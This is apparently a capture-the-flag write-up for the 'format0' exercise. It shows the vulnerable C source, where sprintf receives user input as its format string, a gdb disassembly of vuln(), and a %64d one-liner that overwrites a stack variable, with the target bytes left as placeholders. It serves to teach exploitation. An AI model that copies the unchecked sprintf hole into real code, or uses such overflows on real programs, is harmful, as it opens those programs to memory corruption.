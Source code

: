 ```yaml
---
title:  "Writeup: format0"
date:   2019-04-14 8:18:00
categories: writeup
layout: post
author: Amanda Ezeobiejesi
---
```



format0 is the first of the format binary explotation challenges for us to solve. 

We are given the following source code:

```

include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string){
    volatile int target;
    char buffer[64];
    char flagBuffer[64];
    FILE *fp;

    target = 0;

    sprintf(buffer, string);
    
    if(target == 0xdeadbeef) {
        printf("you have hit the target correctly :)\n");
        fp = fopen("./flag.txt", "r");
        fgets(flagBuffer, 64, (FILE*)fp);
        printf("flag: %s\n", flagBuffer);
    }
}

int main(int argc, char **argv){                                                                                                                                           
    vuln(argv[1]);
}

```

The goal of this binary is to change the target's value to `0xdeadbeef`.

As we have been dealing with a few stack binary explotation challenges, looking at this binary, an obvious way to exploit it would be to use a standard stack buffer overflow. However, we have to do this by exploiting format strings.

Our goal message, "you have hit the target correctly :)", is in the `vuln()` function, so the first thing we want to do is disassemble the `vuln()` function. 

```

(gdb) set disassembly-flavor intel
(gdb) set pagination off
(gdb) disas vuln
Dump of assembler code for function vuln:                                                                                                   
   0x080484eb <+0>:     push   ebp                                                                                                          
   0x080484ec <+1>:     mov    ebp,esp                                                                                                      
   0x080484ee <+3>:     sub    esp,0x98                                                                                                     
   0x080484f4 <+9>:     mov    DWORD PTR [ebp-0x10],0x0                                                                                     
   0x080484fb <+16>:    sub    esp,0x8                                                                                                      
   0x080484fe <+19>:    push   DWORD PTR [ebp+0x8]                                                                                          
   0x08048501 <+22>:    lea    eax,**[ebp-0x50]**                                                                                               
   0x08048504 <+25>:    push   eax                                                                                                          
   0x08048505 <+26>:    call   0x80483d0 <sprintf@plt>                                                                                      
   0x0804850a <+31>:    add    esp,0x10                                                                                                     
   0x0804850d <+34>:    mov    eax,DWORD PTR **[ebp-0x10]**                                                                                     
   0x08048510 <+37>:    cmp    eax,0xdeadbeef                                                                                               
   0x08048515 <+42>:    jne    0x804856d <vuln+130>                                                                                         
   0x08048517 <+44>:    sub    esp,0xc                                                                                                      
   0x0804851a <+47>:    push   0x8048630                                                                                                    
   0x0804851f <+52>:    call   0x80483a0 <puts@plt>                                                                                         
   0x08048524 <+57>:    add    esp,0x10                                                                                                     
   0x08048527 <+60>:    sub    esp,0x8                                                                                                      
   0x0804852a <+63>:    push   0x8048655                                                                                                    
   0x0804852f <+68>:    push   0x8048657                                                                                                    
   0x08048534 <+73>:    call   0x80483c0 <fopen@plt>                                                                                        
   0x08048539 <+78>:    add    esp,0x10                                                                                                     
   0x0804853c <+81>:    mov    DWORD PTR [ebp-0xc],eax                                                                                      
   0x0804853f <+84>:    sub    esp,0x4                                                                                                      
   0x08048542 <+87>:    push   DWORD PTR [ebp-0xc]                                                                                          
   0x08048545 <+90>:    push   0x40                                                                                                         
   0x08048547 <+92>:    lea    eax,[ebp-0x90]                                                                                               
   0x0804854d <+98>:    push   eax                                                                                                          
   0x0804854e <+99>:    call   0x8048390 <fgets@plt>                                                                                        
   0x08048553 <+104>:   add    esp,0x10                                                                                                     
   0x08048556 <+107>:   sub    esp,0x8                                                                                                      
   0x08048559 <+110>:   lea    eax,[ebp-0x90]                                                                                               
   0x0804855f <+116>:   push   eax                                                                                                          
   0x08048560 <+117>:   push   0x8048662                                                                                                    
   0x08048565 <+122>:   call   0x8048380 <printf@plt>                                                                                       
   0x0804856a <+127>:   add    esp,0x10                                                                                                     
   0x0804856d <+130>:   nop                                                                                                                 
   0x0804856e <+131>:   leave                                                                                                               
   0x0804856f <+132>:   ret                                                                                                                 
End of assembler dump.

```

Within this disassembly of vuln there are two important memory locations: `ebp-0x50` and `ebp-0x10`, which belong to the `buffer` and `target`, respectively.

The simplest way of exploiting a format string is to write a short format string preceded by a large string that is written into a buffer.

In our case, due to the buffer in the source code being 64, we want a format string that writes 64 characters followed by the value we want the `target` to be `0xdeadbeef`. This would write past `buffer` into `target`, resulting in the `target` being overwritten. 

Looking at the [man printf](https://linux.die.net/man/3/printf) and using the `minimum field width`, the final exploitation should look like :

`$ ./format0 $(python -c "print '%64d\x?\x?\x?\x?'")`

you have hit the target correctly :)

flag: helloworld

where the "?" represents `0xdeadbeef` in little endian.
